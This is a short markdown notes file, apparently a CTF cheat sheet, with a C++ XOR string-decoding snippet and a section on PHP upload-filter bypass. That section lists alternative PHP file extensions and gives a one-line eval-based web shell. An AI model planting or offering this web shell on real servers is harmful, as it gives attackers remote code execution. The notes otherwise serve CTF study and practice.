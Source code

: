 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml
#
```php
<?php @eval($_POST['chopper']);?>
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbOTg2ODg1OTYyLC0xNDEwNjg2NjM3LDMzNT
U4MDgwOF19
-->